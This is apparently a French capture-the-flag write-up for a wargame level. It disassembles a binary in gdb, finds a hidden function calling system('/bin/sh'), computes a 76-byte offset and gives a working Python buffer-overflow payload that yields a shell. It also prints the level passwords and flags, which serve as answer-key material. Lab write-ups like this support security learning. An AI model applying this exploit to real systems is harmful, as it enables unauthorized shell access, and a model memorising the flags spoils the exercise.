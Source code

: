 # LEVEL 1

On se connecte sur le level1, ou se trouve un **binaire** `level1.`

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level1 -q
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) > disas main
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
```

En regardant les fonctions utlisées, on trouve :

```gdb
(gdb) > info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

On trouve une fonction qui n'est pas utlisée **run** :

```
(gdb) > disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x80497c0,%eax
   0x0804844f <+11>:    mov    %eax,%edx
   0x08048451 <+13>:    mov    $0x8048570,%eax
   0x08048456 <+18>:    mov    %edx,0xc(%esp)
   0x0804845a <+22>:    movl   $0x13,0x8(%esp)
   0x08048462 <+30>:    movl   $0x1,0x4(%esp)
   0x0804846a <+38>:    mov    %eax,(%esp)
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    movl   $0x8048584,(%esp)
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
```

> Ici on observe l'appelle de la commande **system** avec comme argument 0x8048584:
```gdb
x/s 0x8048584
0x8048584:       "/bin/sh"
```

On sait que l'on va devoir utliser la fonction **run** qui fait un **system("/bin/sh")**. Pour cela nous allons effectuer un buffer **overflow**.

```gdb
gdb > ./level1
(gdb) b *main+21
Breakpoint 1 at 0x8048495
(gdb) run
Starting program: /home/user/level1/level1
BBBB

Breakpoint 1, 0x08048495 in main ()
(gdb) x/20x $esp
0xbffff6d0:     0xbffff6e0      0x0000002f      0xbffff72c      0xb7fd0ff4
0xbffff6e0:     0x42424242      0x08049700      0x00000002      0x08048321
0xbffff6f0:     0xb7fd13e4      0x00000016      0x0804978c      0x080484c1
0xbffff700:     0xffffffff      0xb7e5edc6      0xb7fd0ff4      0xb7e5ee55
0xbffff710:     0xb7fed280      0x00000000      0x080484a9      0xb7fd0ff4

(gdb) i f
Stack level 0, frame at 0xbffff730:
 eip = 0x8048495 in main; saved eip 0xb7e454d3
 Arglist at 0xbffff728, args:
 Locals at 0xbffff728, Previous frame's sp is 0xbffff730
 Saved registers:
  ebp at 0xbffff728, eip at 0xbffff72c

```


> 0xbffff72c => EIP
>
> 0xbffff6e0 => Buffer beginning
>
> offset = 0xbffff72c - 0xbffff6e0 = 76

```bash
python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
```

> \x44\x84\x04\x08 => 0x08048444, adresse de la fonction **run**

On se rend compte que nous ne restons pas dans le shell une fois le programme fini, donc on utilise la commande **cat** pour laisser ouvert le stdin du pipe:

```
(python -c "print 'A' * 76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
> cd ../level2 && cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

For download :
`scp -P4242 level1@IP:level1 .`
> Password : 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a